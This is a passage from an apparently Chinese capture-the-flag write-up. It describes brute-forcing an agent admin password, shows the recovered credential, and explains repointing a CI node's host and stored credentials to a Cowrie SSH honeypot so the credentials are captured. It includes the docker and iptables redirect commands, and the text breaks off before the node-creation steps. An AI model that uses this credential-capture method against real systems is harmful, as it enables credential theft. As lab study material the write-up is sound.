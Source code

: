 Knave 是 agent 的 admin

[![](assets/1699929835-a1b3d98ff8822e25bf654728fc0bf560.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109133916-5256f01c-7ec2-1.png)

通过爆破密码可以得到密码

```plain
knave:rockme
```

之后就是新创建一个 node，设置它的 host 和 Credentials 改成自己服务器和 agent 的 credentials，ssh 发送到自己部署的蜜罐上来得到 flag。

先创建蜜罐，使用[https://github.com/cowrie/cowrie：](https://github.com/cowrie/cowrie%EF%BC%9A)

```plain
docker run -p 2222:2222 cowrie/cowrie
#设置端口转发
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -P FORWARD ACCEPT
iptables -A INPUT -p tcp --dport 2222 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-ports 2222

#蜜罐使用完之后将转发的规则删除，要删干净。
iptables -L INPUT --line-numbers
iptables -D INPUT 7
iptables -t nat -L -n --line-numbers
iptables -t nat -D PREROUTING 2
```

创建新节点：
